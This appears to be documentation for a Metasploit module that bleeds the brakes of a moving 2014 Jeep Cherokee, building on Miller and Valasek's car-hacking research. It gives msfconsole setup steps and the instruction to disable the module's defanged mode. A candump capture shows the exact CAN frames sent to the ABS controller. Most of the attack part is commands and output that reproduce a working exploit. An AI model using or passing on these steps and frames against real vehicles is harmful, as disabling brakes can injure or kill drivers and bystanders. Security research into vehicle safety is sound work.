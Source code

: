 ## Introduction
This module will bleed all the brakes on the 2014 Jeep Cherokee while the car is moving. This has the result that the brakes will 
not work during this time and has significant safety issues, even if it only works if you are driving slowly.

References:
https://ioactive.com/wp-content/uploads/2018/05/IOActive_Remote_Car_Hacking-1.pdf
http://www.illmatics.com/Remote%20Car%20Hacking.pdf

Authors:
Charlie Miller # Original Author and Researcher 
Chris Valasek # Original Author and Researcher
Jay Turla # Metasploit Module

## Verification Steps

Fire up virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

Launch msf:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath testbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi testbus`

## Options

```
Module options (post/hardware/automotive/cherokee_kill_brakes):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CANBUS                    no        CAN Bus to perform scan on, defaults to connected bus
   SESSION                   yes       The session to run this module on.
```

**CANBUS**
CAN Bus to perform scan on, defaults to connected bus

**SESSION**
The session to run this module on.

**DefangedMode**
Set this to `false` to disable defanged mode and enable module functionality. Set this only if you're SURE you want to proceed.

## Scenarios
You can test this module doing a candump wherein the first CAN Frame will start a diagnostic session with the ABS ECU and then bleed all the brakes at maximum which contains one message (InputOutput) but requires multiple CAN messages since the data is too long to fit in a single CAN frame.

```
msf5 auxiliary(client/hwbridge/connect) > run
[*] Running module against 127.0.0.1

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2019-09-11 04:59:40 -0700
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf5 auxiliary(client/hwbridge/connect) > sessions

Active sessions
===============

  Id  Name  Type                   Information  Connection
  --  ----  ----                   -----------  ----------
  1         hwbridge cmd/hardware  automotive   127.0.0.1 -> 127.0.0.1 (127.0.0.1)

msf6 auxiliary(client/hwbridge/connect) > use post/hardware/automotive/cherokee_kill_brakes
msf6 post(hardware/automotive/cherokee_kill_brakes) > set session 1
session => 1
msf6 post(hardware/automotive/cherokee_kill_brakes) > set CANBUS vcan0
CANBUS => vcan0
msf6 post(hardware/automotive/cherokee_kill_brakes) > set VERBOSE true
msf6 post(hardware/automotive/cherokee_kill_brakes) > set DefangedMode false
msf6 post(hardware/automotive/cherokee_kill_brakes) > run

[*] Starting a diagnostic session with the ABS ECU...
[*] -- Bleeding all the brakes at maximum --
[*] Post module execution completed
```

You can use candump to verify the CAN frames being sent:

```
└─# candump vcan0           
  vcan0  18DA28F1   [8]  02 10 03 00 00 00 00 00
  vcan0  18DA28F1   [8]  10 11 2F 5A BF 03 64 64
  vcan0  18DA28F1   [8]  64 64 64 64 64 64 64 64
  vcan0  18DA28F1   [8]  64 64 64 00 00 00 00 00
```

